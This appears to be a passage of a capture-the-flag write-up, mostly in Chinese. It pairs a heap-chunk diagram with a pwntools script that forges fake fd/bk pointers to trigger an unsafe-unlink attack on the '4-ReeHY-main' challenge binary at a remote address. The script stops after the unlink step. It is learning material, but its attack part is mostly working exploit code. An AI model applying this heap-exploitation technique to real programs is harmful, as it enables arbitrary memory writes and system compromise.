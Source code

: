 ```console
chunk0                malloc返回的ptr           chunk1        malloc返回的pt
|                     |                        |             |
+-----------+---------+----+----+----+----+----+------+------+----+----+------+
|           |         |fake|fake|fake|fake| D  | fake | fake |    |    |      |
|           |         |prev|size| FD | BK | A  | prev | size&|    |    |      |
| prev_size |size&Flag|size|    |    |    | T  | size | flag |    |    |      |
|           |         |    |    |    |    | A  |      |      |    |    |      |
|           |         |    |    |    |    |    |      |      |    |    |      |
+-----------+---------+----+----+----+----+----+------+------+----+----+------+
                      |-------new_chunk0-------|
```

释放chunk1绕过unlink后执行FD->bk = BK;BK->fd = FD;修改存放heap指针的地方指向heap-0x18

```python
from pwn import *
from LibcSearcher import *

elf = ELF('./4-ReeHY-main')
context.os = 'linux'
context.arch = 'amd64'
context.log_level = 'debug'

def add(_id,size,content):
	io.recvuntil('$ ')
	io.sendline('1')
	io.recvuntil('size\n')
	io.sendline(str(size))
	io.recvuntil('cun\n')
	io.sendline(str(_id))
	io.recvuntil('content\n')
	io.sendline(content)
def delete(_id):
	io.recvuntil('$ ')
	io.sendline('2')
	io.recvuntil('dele\n')
	io.sendline(str(_id))
def edit(_id,content):
	io.recvuntil('$ ')
	io.sendline('3')
	io.recvuntil('edit\n')
	io.sendline(str(_id))
	io.recvuntil('content\n')
	io.send(str(content))
def init():
	io.recvuntil('name: \n')
	io.sendline('name')

io = remote('220.249.52.133',46328)
#io = process('./4-ReeHY-main')
heap_2_saved_addr = 0x602100

init()
add(0,0x200,"/bin/sh\x00")
add(1,0x200,'aaaa') # avoid padding struct_0 in payload2
add(2,0x200,"bbbb")
add(3,0x200,"cccc")

delete(3)
delete(2)
payload = p64(0) + p64(512|1) + p64(heap_2_saved_addr-0x18) + p64(heap_2_saved_addr-0x10)
payload += 'a'*(0x200-0x20) + p64(0x200) + p64(0x200)
add(2,0x400,payload)
delete(3) # unlink 1+2 -> 1,[heap_2_saved_addr] = heap_2_saved_addr-0x18
```